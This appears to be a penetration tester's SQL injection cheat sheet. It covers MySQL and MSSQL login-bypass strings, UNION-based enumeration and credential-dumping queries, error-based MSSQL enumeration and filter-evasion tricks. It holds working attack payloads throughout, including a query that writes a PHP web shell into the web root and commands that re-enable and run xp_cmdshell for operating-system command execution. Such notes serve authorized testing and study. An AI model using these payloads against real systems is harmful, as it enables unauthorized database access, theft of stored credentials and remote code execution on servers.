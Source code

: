 # SQL injection 

## Login Bypass:   << replace ' with " if fail
  ' or '1'='1  
  ' or 1=1;--  
  ' or 1=1;#  
  ') or ('x'='x  
  ' or <column> like '%';--  
  ' or 1=1 LIMIT 1;--  

  USERNAME:   ' or 1/*  
  PASSWORD:   */ =1 --  

  USERNAME: admin' or 'a'='a  
  PASSWORD '#  

If the database is mysql, try to dump all login info to files?

Mysql
  '*'   
  '&'  
  '^'  
  '-'  
  ' or true;--   
  ' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'

## Enumeration
1. Confirm number of columns
order by 1 -- 100

2. union select
union select 1,2,3,4,5,6,7 to find which column will display info

3. Find databse name, user name, and version.  << must use group_concat for one liner
(select group_concat(database(),0x3a,user(),0x3a,version()))

4. Find table name
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())

5. Find columns 
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out

6. Dump data
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)

7. One liner to output all corresponding databse with table and columns
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

	concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()

### MSSQL Enumeration: Error based 
https://www.exploit-db.com/papers/12975/

	Enumerate column and table name
	http://www.example.com/page.asp?id=1' HAVING 1=1--
	Error message: Column 'news.news_id' is invalid                 < table_name.column

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
	Error message: Column 'news.news_author' is invalid           < table_name.column2

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
	Error message: Column 'news.news_detail' is invalid             < table_name.column3

	Until no error

	Enumerate version, db name, users:
	http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
	http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
	http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

	xp_cmdshell << if running as database admin
	http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
	'; exec master.dbo.xp_cmdshell 'command'



	On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
	EXEC sp_configure 'show advanced options', 1;--
	RECONFIGURE;-- 
	EXEC sp_configure 'xp_cmdshell', 1;-- 
	RECONFIGURE;--  

	On MSSQL 2000:
	EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--


## SQL filter bypass
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

	AND, OR operators
	AND = &&
	OR = ||

	Comment operator << Mysql
	--  	
	#  
	/**/  

	Regular expression
	It is common that PHPIDS will block operators such as =, ', (), 
	table_name = 'users' X
	table_name between 'a' and 'z' X
	table_name between char(97) and char(122) X

	Convert strings to HEX format.
	table_name between 0x61 and 0x7a
	table_name like 0x7573657273

	Change case
	union > UniOn
	select > SeLect

	Inline comments << Mysql 5.0
	/*! <sql operator> */
